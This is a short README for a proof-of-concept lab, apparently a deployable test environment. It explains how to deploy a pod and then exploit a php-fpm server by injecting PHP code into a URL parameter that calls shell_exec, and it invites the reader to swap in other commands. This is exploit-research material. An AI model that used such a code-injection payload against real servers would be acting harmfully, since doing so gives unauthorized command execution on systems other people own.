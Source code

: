# Usage
Start deployment using `bash deploy.sh`. Removes any existing pod deployment of the PoC and starts a fresh one.

Interact with bastion
```bash
curl -k https://localhost:443/api/v1/user/login -X POST
```

# Running exploit
As part of the deployment we have a php-fpm server running, this takes a specific payload and runs it. Tweak the command in shell_exec() to change what is ran.

```
curl -k -X POST "https://localhost/index.php?ev=<? shell_exec('ls /');  ?>"
```


